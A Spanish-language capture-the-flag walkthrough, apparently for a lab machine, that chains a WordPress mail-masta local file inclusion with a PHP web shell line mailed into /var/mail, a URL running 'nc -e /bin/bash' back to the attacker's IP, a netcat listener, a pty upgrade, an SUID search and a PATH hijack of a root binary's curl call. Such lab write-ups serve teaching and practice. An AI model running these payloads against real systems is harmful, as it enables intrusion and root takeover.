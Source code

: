 Una vez que se logra enviar el correo insertando la linea de PHP: `<?php system($_GET['c']); ?>` hay que ir al browser y tipear la siguente URL:

>``**http://10.0.0.138/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc%20-e%20/bin/bash%2010.0.0.131%201234**``

---

Previamente desde la VM atacante hay que abrir una conexión esperando el reverse shell:

---

```console
nc -nlvp 1234
```
---

Si todo salió bien ya tenemos la shell reversa. Para que todo vaya mejor ejecuto:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
---

Corriendo el siguiente comando **``find / -perm -u=s -type f 2>/dev/null``** encontré un ejecutable que no es convencional llamado `statuscheck`.
Al ejecutar este binario lo hace con los privilegios de root y si veo el contenido con el comando `strings` se ve que claramente está ejecutando el comando `cURL`:

---

```console
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
http://lH
ocalhostH
AWAVA
AUATL
[]A\A]A^A_
;*3$"
GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 20170516
```
---

La manera de aporovecharse de todo esto es creando un archivo llamado igual que el comando `curl` dentro del directorio `/tmp` con el contenido `"/bin/sh"` y modificar la variable de entorno `$PATH`. De esta forma lo que se logra es ejecutar el binario `statuscheck` con privilegios de root pero en vez de ir a buscar al comando genuino `curl` primero lo va a ir a buscar dentro de la primera variable de PATH que le declaramos nosotros y que es `/tmp`. Así se ejecunta `/bin/sh` como root:

---